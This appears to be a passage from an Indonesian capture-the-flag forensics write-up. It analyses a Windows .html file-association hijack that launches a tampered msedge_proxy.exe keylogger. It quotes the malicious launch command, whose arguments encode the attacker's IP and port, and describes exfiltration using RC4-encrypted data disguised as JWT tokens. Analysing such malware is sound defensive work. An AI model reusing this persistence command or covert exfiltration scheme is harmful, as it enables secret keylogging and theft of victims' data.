 Attacker menggunakan file association untuk run malware. Disini karena konteksnya victim sedang belajar HTML, file association yang diubah adalah untuk extension `.html`. Untuk mencari file association tersebut bisa diakses di `%localappdata%\Microsoft\Windows\UsrClass.dat` dan mencari di bagian `MSEdgeHTM` (default browser untuk Windows). Shell command yang digunakan ketika victim membuka file html adalah `"C:\Program Files (x86)\Microsoft\Edge\Application\msedge_proxy.exe" --default-home "https://google.com/search?q=I+searching+my,+a+device+wireless,+network+router,+a+bad+x" --proxy-port "9000"`. Argumen `default-home` digunakan sebagai IP dari attacker dengan menggunakan jumlah huruf dalam setiap kata dan setiap titik ditandai dengan koma. Argumen `proxy-port` digunakan sebagai port dari attacker. Karena argument yang digunakan tidak ada di executable `msedge_proxy.exe` yang asli, ada kemungkinan executable ini sudah diubah oleh attacker.

Ketika melakukan reverse engineering terhadap executable `msedge_proxy.exe`, terlihat bahwa executable tersebut merupakan sebuah keylogger yang akan melakukan exfiltration ke sebuah website yang sudah disetup oleh attacker. Payload dari keylogger akan di encrypt menggunakan RC4 dan disembunyikan sebagai JWT token sebuah HTTP request.
